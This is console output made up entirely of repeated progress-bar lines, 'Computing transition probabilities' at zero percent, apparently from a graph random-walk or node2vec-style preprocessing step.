Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

